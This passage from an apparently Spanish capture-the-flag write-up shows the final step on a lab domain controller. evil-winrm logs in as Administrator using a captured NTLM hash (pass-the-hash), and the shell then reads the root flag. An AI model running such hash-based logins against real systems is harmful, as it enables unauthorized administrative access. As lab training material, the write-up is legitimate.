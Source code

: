 Con el ticket o el hash podremos acceder al equipo y tomar la última flag.

```bash
❯ evil-winrm -i dc01.certified.htb -H '0d5b49608bbce1751f708748f67e2d34' -u Administrator
                                        
Evil-WinRM shell v3.6
                                                                    
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/18/2025  10:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
1aa525101adf5506958b72cde4******
```